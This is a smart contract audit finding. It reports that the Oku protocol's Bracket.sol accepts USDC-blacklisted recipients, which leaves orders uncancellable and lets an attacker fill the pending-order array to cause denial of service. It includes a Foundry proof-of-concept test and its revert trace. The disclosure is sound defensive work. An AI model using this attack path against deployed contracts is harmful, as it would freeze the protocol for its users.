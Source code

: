 Slow Rose Puppy

Medium

# Malicious User can Poison Bracket.sol with Blacklisted Accounts

### Summary

The missing check for blacklisted accounts when creating orders allows users to specify a blacklisted account as the recipient of an easily executable order to freeze execution of the orderbook. This will also prevent the order from being canceled by the admin, since the cancelOrder function attempts to send tokens to the order.recipient, which is blacklisted. This can be used to fill up the arrays which contain pendingOrders, which will eventually DOS the protocol when the maxPendingOrders is reached. 

### Root Cause

The protocol expects to use tokens with blacklists, and allows users to specify the recipient address where tokens will be sent without properly validation if transferring tokens is possible to the recipient address. 

Bracket.sol:procureTokens uniquely uses msg.sender to take the tokens from:

https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L362C1-L368C15

This allows a non-blacklisted address to create and pay for an order for a blacklisted account. This then becomes uncancelable due to the Bracket.sol:_cancelOrder function attempting to return these tokens to the order.recipient:

https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L510C1-L511C77

### Internal pre-conditions

1. A token with a blacklist is added to the protocol. 

### External pre-conditions

1. The token must have a blacklist.

### Attack Path

1. The attacker calls createOrder in Bracket.sol with the recipient field set to a blacklisted address for a token pair added to the protocol as cheaply as possible.
2. The attacker repeats this until the pendingOrderIds array is full of uncancelable orders.


### Impact

This will cause a DOS to the protocol when the pendingOrderIds reaches maxPendingOrders:

https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L462C1-L465C11

This will also cause the ArrayMutation:removeFromArray to explode in gas costs.

### PoC

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {Test, console2 as console} from "lib/forge-std/src/Test.sol";
import {Gas} from "test/Gas.sol";
import "src/automatedTrigger/IAutomation.sol";
import {OracleLess} from "src/automatedTrigger/OracleLess.sol";
import {AutomationMaster} from "src/automatedTrigger/AutomationMaster.sol";
import {Bracket} from "src/automatedTrigger/Bracket.sol";
import {StopLimit} from "src/automatedTrigger/StopLimit.sol";
import {IPermit2} from "src/interfaces/uniswapV3/IPermit2.sol";
import {IERC20} from "src/interfaces/openzeppelin/IERC20.sol";

contract Setup is Test, Gas {
    AutomationMaster internal automation;
    OracleLess internal oracleLess;
    Bracket internal bracket;
    StopLimit internal stopLimit;

    IPermit2 internal permit;

    IERC20 internal weth = IERC20(0x82aF49447D8a07e3bd95BD0d56f35241523fBab1);
    IERC20 internal usdc = IERC20(0xaf88d065e77c8cC2239327C5EDb3A432268e5831);

    address internal _alice = address(0x1111);
    address internal _bob = address(0x2222);

    address internal _admin = address(0x12345);

    address internal _wethWhale = 0xC6962004f452bE9203591991D15f6b388e09E8D0;
    address internal _usdcWhale = 0x70d95587d40A2caf56bd97485aB3Eec10Bee6336;

    function setUp() public virtual {
        uint256 forkId = vm.createSelectFork("http:127.0.0.1:8545");

        vm.startPrank(_admin);
        automation = new AutomationMaster();
        permit = IPermit2(0x000000000022D473030F116dDEE9F6B43aC78BA3);

        bracket = new Bracket(IAutomationMaster(address(automation)), permit);
        stopLimit = new StopLimit(
            IAutomationMaster(address(automation)),
            IBracket(address(bracket)),
            permit
        );
        oracleLess = new OracleLess(automation, permit);

        vm.stopPrank();
        vm.startPrank(_wethWhale);
        weth.transfer(_alice, 10 ether);
        weth.transfer(_bob, 10 ether);
        vm.stopPrank();

        vm.startPrank(_usdcWhale);
        usdc.transfer(_alice, 10000e6);
        usdc.transfer(_bob, 10000e6);
        vm.stopPrank();

        IERC20[] memory tokens = new IERC20[](2);
        tokens[0] = weth;
        tokens[1] = usdc;
        IPythRelay[] memory relays = new IPythRelay[](2);
        relays[0] = IPythRelay(0x384542D720A765aE399CFDDF079CBE515731F044);
        relays[1] = IPythRelay(0x9BDb5575E24EEb2DCA7Ba6CE367d609Bdeb38246);
        vm.prank(_admin);
        automation.registerOracle(tokens, relays);
        vm.prank(_admin);
        automation.setMaxPendingOrders(100);
    }

    function testBlacklist() public {
        address blacklisted = 0xE1D865c3D669dCc8c57c8D023140CB204e672ee4;
        vm.startPrank(_alice);
        usdc.approve(address(bracket), 1e6);

        bracket.createOrder(
            bytes(""),
            0,
            0,
            1e6,
            usdc,
            weth,
            blacklisted,
            0,
            0,
            0,
            false,
            bytes(abi.encode(""))
        );

        vm.stopPrank();

        vm.startPrank(_admin);
        vm.expectRevert();
        bracket.adminCancelOrder(39339196620263951948733905105);
        vm.stopPrank();
    }
}
```
With the result being a revert from the usdc contract:
```solidity
    ├─ [10903] Bracket::adminCancelOrder(39339196620263951948733905105 [3.933e28])
    │   ├─ [3777] 0xaf88d065e77c8cC2239327C5EDb3A432268e5831::transfer(0xE1D865c3D669dCc8c57c8D023140CB204e672ee4, 1000000 [1e6])
    │   │   ├─ [3058] 0x86E721b43d4ECFa71119Dd38c0f938A75Fdb57B3::transfer(0xE1D865c3D669dCc8c57c8D023140CB204e672ee4, 1000000 [1e6]) [delegatecall]
    │   │   │   └─ ← [Revert] revert: Blacklistable: account is blacklisted
    │   │   └─ ← [Revert] revert: Blacklistable: account is blacklisted
    │   └─ ← [Revert] revert: Blacklistable: account is blacklisted
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Return] 

```


### Mitigation

The protocol should add validation for the recipient address for blacklisted users of the tokens added to the protocol that contain a blacklist.